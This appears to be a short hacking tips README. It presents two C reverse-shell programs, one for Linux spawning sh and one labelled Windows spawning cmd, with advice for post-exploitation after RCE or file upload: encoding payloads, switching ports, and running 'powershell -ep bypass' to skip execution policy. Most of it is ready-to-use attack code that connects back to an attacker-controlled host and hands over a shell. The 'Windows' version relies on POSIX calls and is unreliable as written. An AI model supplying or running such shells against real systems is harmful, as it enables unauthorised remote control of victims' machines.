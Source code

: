 # TIPS 

If you have obtained a vulnerability such as RCE, file upload or something else, you can use the script below to spawn a shell or backconnect revershell. If the shell does not run see below

1. Make sure the target has internet access (internet access opened)
2. Try changing the port to a larger one such as 8080, 8888, etc. 
3. Encode your script using base64 and then decode it 
4. Encode your script using url encode 
5. Check the compiler 


## C script spawning shell 

``` Linux 
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 4444;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("<IP>");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execvp("sh", argv);

    return 0;       
}
```

## C spawning cmd 

```Windows
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 4444;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("0.0.0.0");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"cmd", NULL};
    execvp("cmd", argv);

    return 0;       
}
```

*Pro tips 

- If you was gett the shell, change to powershell, you can run 

```
powershell -ep bypass 
```